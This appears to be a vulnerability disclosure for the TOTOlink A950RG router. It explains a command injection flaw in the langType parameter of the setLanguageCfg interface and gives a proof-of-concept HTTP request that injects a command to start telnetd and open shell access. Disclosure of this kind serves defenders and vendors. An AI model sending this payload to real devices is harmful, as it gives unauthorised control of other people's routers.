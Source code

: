 # TARGET
TOTOlink A950RG Router with firmware version V4.1.2cu.5204_B20210112

# BUG TYPE
Command Execution Vulnerability

# Abstract
The TOTOlink A950RG router contains a command execution vulnerability in the `setLanguageCfg` interface of the `/lib/cste_modules/global.so` library, specifically in the processing of the` langType` parameter. Due to insufficient input validation and filtering of user-controllable parameters, attackers can inject system commands through specially crafted malicious requests to the` langType` parameter. By exploiting this vulnerability, unauthorized attackers can execute arbitrary system commands, thereby gaining control over the affected router device.

# Details

![Snipaste_2025-04-08_00-46-39](figures/Snipaste_2025-04-08_00-46-39.png)

The vulnerability exists in the setLanguageCfg function of the global.so library. Analysis of the disassembled code reveals that the sprintf() function formats a string into the v9 buffer with the format string 'ln -s /web_cste/js/language_%s.js /web_cste/js/language.js 1>/dev/null 2>&1', where %s is replaced with the value of v6 (the user-supplied langType parameter). The CsteSystem() function then executes the command string in v9, calling the system to execute this command.

If an attacker injects malicious commands into variable v6 (the langType parameter), such as instructions to start the telnet service, these commands will be directly concatenated into the system call and executed. When the router executes CsteSystem(v9, 0), it not only processes the original language configuration functionality but also executes the injected malicious commands, potentially activating services that were previously disabled or performing other unauthorized operations.

Due to the lack of sufficient validation and filtering of user input before executing the CsteSystem command, conditions for command injection attacks are created. Attackers can exploit this command execution vulnerability by sending specially crafted API requests with malicious commands injected into the langType parameter, potentially resulting in complete system compromise.

# POC
Through BurpSuite packet capture tool, we can intercept data packets between the frontend and backend. By analyzing the packet structure, we can construct HTTP request packets containing command injection and send the requests. Through analysis of the returned packets, we can confirm the results of malicious command execution, thereby verifying the existence and exploitation effect of the vulnerability.

```
POST /cgi-bin/cstecgi.cgi HTTP/1.1
Host: 192.168.0.1
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:135.0) Gecko/20100101 Firefox/135.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 68
Origin: http://192.168.0.1
Connection: close
Referer: http://192.168.0.1/home.asp
Cookie: SESSION_ID=2:1744038027:2

{"topicurl":"setting/setLanguageCfg",
"langType" : "; telnetd &# "}
```

As shown in the results, the command injection was successful, and the target router device supports Telnet service, allowing shell access to the device via Telnet. Before the attack, the Telnet service was disabled, but after sending the crafted request with the injected command, the service was activated, confirming the vulnerability's existence and impact.

![Snipaste_2025-04-06_02-45-09](figures/Snipaste_2025-04-06_02-45-09.png)